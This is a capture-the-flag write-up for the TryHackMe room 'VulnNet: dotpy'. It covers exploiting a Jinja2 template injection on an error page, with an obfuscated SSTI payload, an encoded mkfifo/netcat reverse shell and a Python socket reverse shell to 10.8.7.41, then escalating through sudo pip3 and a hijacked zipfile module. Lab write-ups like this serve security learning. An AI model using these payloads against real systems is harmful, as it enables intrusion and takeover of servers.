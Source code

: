 ```yaml
---
title: Vulnet Dotpy
layout: post
author: Bit Criminals Team
date: 2021-05-17 21:27:00 +0530
type: Pentesting
difficulty: Medium
prompt: https://tryhackme.com/room/vulnnetdotpy
---
```



As usual lets start with the nmap scan...


![](/images/D4rkDemian/dotpy1.png)


We got only one port i.e **8080** and gobuster was not working so using ffuf we found only three directories namely:

```
/login
/register
/logout
```

So we created an account and logged in into the website.


On enumerating we found that if we enter any wrong directory in the url we can see a 400 error page whose content was same eveytime except the input that we give in the url..


![](/images/D4rkDemian/dotpy3.png)


So we guessed it would be template injection and confirmed it by entering {{7*7}}.


So now we found an exploit command which will find the os library within the running machine and let us run our commands like **id** , **ls** etc..


```py

{{request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('id')|attr('read')()}}

```

This worked and we got our output.


![](/images/D4rkDemian/dotpy6.png)


Now lets put our revershell also and listen to our local terminal using nc...

Now the exploit looks as follows 

```py
/%7B%7Brequest|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen'
('rm\x20\x2Ftmp\x2Ff\x3Bmkfifo\x20\x2Ftmp\x2Ff\x3Bcat\x20\x2Ftmp\x2Ff\x7Cbash\x20\x2Di\x202\x3E\x261\x7Cnc
\x2010\x2E8\x2E7\x2E41\x201337\x20\x3E\x2Ftmp\x2Ff')|attr('read')()%7D%7D

```

We replaced the percent sign with \x and . with \x2E as they were getting blocked by the website.

And so we got our shell 

Lets send socat to the shell to make it more stabilized..

After doing sudo -l we found that user web had the permission to run /usr/bin/pip3 as system-adm user .


So we created a setup.py file and placed the python reverse shell in it 


```py
echo 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.8.7.41",7777));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);' > /tmp/shell/setup.py
```


Now listen on your local machine and run the following command in the shell 

```shell
sudo -u system-adm /usr/bin/pip3 install /tmp/shell
```

And now we are system-adm 

Now after getting the user flag we do sudo -l to get this:

![](/images/Dr.DONN4/dotpy1.png)

Now after a bit of google search I get this root priviledge escalation technique named SETENV in this blog https://book.hacktricks.xyz/linux-unix/privilege-escalation

I tried as was done in the blog that is ran 

sudo PYTHONPATH=/tmp/ /usr/bin/python3 /opt/backup.py 

But it didn't worked.

![](/images/Dr.DONN4/dotpy2.png)

Hence, I read the backup.py code and found mistakes in the program but we didn't had permission to change it.But we have a zipfile module we can make use of this module by 
creating one in the /tmp/ directory.


![](/images/Dr.DONN4/dotpy3.png)


So, I created one zipfile with 


echo "import pty;pty.spawn('/bin/sh')" > /tmp/zipfile.py


And ran the command again :


![](/images/Dr.DONN4/dotpy4.png)


and we have the root flag
